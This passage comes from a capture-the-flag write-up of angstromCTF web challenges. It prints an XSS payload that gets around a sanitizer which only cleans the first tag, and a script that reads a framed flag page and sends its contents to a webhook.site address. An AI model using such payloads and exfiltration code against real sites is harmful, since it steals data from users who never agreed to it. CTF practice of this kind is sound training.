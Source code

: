 When I try to inject HTML code into the sardine, it seems as the input would be sanitized. However, this happens only to the first tag of the input; the rest of the tags would be unsanitized and executed.

Since the sardine program stores each input with unique URI, we can upload the attacking code to the program and make the Admin bot visit the sardine. Due to the same origin policies,

```html
<>'""'aa<iframe id='f1' src='https://xtra-salty-sardines.web.actf.co/flag'></iframe><div id='ww'></div><script src='(REDACTED_SCRIPT_LOCATION)'></script>
```

Below is [the script](web/xss.js) that I used. The script grabs the content of the flag page and sends it to my [Webhook](https://webhook.site) page where every request it receives is revealed.

```js
const sleep = (ms) => {
    const stop = new Date().getTime() + ms;
    while (new Date().getTime() < stop) {}
};

sleep(3000);

var flag = window.frames[0].document.body.innerHTML;

document.getElementById('ww').innerHTML='<img src="https://webhook.site/58d53da3-******************?msg='+flag+'">';
```

**Flag: `actf{those_sardines_are_yummy_yummy_in_my_tummy}`**

## Art Gallery (100 pts)

> bosh left his [image gallery](https://art-gallery.web.actf.co) service running.... quick, git all of his secrets before he deletes them!!! [source](https://files.actf.co/402c73bf8676ad4d4a12aac56075d2dc04ead83f5d332cbd3d1cfb568315f789/index.js)

The site has a drop-down box with four options. Clicking the `Submit` button loads different images depending on the selected value of the drop-down box.

```html
<!DOCTYPE html>
<html>
    <head>
        <title>
            Angstrom Food Art Gallery
        </title>
    </head>
    <body>
        <h1>
            Angstrom Food Art Gallery
        </h1>
        <h2>
            See all of your favorite food-related Angstrom members from the secret blairsec repo
        </h2>
        <form action="/gallery">
            <select name="member">
                <option value="aplet.jpg">aplet</option>
                <option value="cavocado.jpg">cavocado</option>
                <option value="clam.jpg">clam</option>
                <option value="emh.jpg">evilmuffinha</option>
            </select>
            <input type="submit" value="Submit">
        </form>
    </body>
</html>
```
